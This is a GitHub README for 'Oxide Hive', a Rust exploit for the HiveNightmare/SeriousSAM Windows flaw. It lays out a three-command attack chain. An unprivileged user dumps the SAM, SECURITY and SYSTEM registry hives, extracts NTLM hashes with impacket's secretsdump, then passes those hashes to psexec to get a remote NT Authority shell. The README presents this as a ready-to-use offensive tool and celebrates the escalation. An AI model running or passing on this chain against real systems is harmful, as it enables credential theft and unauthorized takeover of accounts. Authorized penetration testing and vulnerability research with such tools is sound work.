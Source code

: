 # Oxide Hive
An exploit for the HiveNightmare/SeriousSAM vulnerability that allows you to read registry hives containing sensitive data without admin privileges. If that doesn't sound like privilege escalation I don't know what does.

# Usage
After building the exploit with `cargo build` and retrieving the binary, deploy it in your testing environment, open CMD and do `.\oxide_hive [max shadow copies]`, the default for shadow copies is 15. The hives SAM, SECURITY and SYSTEM should be dumped to the working directory

From then on you can use [this script](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) with the command `secretsdump.py -sam SAM.dump -security SECURITY.dump -system SYSTEM.dump local` to retrieve the NTLM hashes.
Then you can use [another script](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) with the command `psexec.py -hashes <account's hash> <user>@<machine's ip> cmd.exe` to remotely log into any account. Congrats, you just went from unprivileged user to NT Authority with only 3 commands.

# Credits
- @jonasLyk, the person who discovered the vulnerability
- @GossiTheDog, the creator of the original exploit which I took inspiration from (https://github.com/GossiTheDog/HiveNightmare)
- @chron1k, coder of the exploit
